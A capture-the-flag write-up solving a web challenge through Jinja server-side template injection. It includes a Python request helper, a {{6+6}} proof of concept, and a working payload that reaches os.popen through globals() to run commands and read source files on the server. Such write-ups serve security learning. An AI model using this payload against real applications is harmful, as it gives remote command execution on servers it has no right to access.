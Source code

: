 # WM04
> 250pts

## Briefing
> Visit the Italian dish suggestion site at https://cfta-wm04.allyourbases.co and find a way to get the flag.

## Solution
I tried to enter various command injection characters to no avail. When I entered `{{}}`, injection for a jinja template, the server seemed to error because the output from the previous search didn't change. To get more detail, I wrote a little python script to make POSTing that data and getting the raw JSON back easier. It's not strictly necessary: just `curl` with `-d` could be used.
```py
import requests
import json
import readline

def pp_json(json_thing, sort=True, indents=4):
    if type(json_thing) is str:
        print(json.dumps(json.loads(json_thing), sort_keys=sort, indent=indents))
    else:
        print(json.dumps(json_thing, sort_keys=sort, indent=indents))
    return None

url = "https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wm04"

while True:
    obj = {"search": input(">>> ")}

    x = requests.post(url, json=obj)
    pp_json(x.text)
```
Here's a proof of concept that the Jinja injection works.
```console
>>> {{6+6}}
{"body": "\n            <p>Sorry, couldn't find any suggestions containing: 12</p>\n            <p>Please try again</p>\n            ",
```
One thing I could try to do is gain a shell. One method of doing this, when you have some python injection, is to use `globals()`. Let's take a look.
```console
>>> {{globals()}}
{
    "body": "\n            <p>Sorry, couldn't find any suggestions containing: {'__name__': 'jinja2.runtime', '__doc__': 'The runtime functions and state used by compiled templates.', '__package__':
```
Looks like we have access to that. Now, can we execute commands?
```console
>>> {{globals().__builtins__.__import__("os").popen("id").read()}}
{
    "body": "\n            <p>Sorry, couldn't find any suggestions containing: uid=993(sbx_user1051)
```
Yes we can! By printing the source of the challenge using `popen("cat lambda_function.py")`, I was able to obtain the flag.

## Flag
Flag: `t3mpl4te_vu1n`
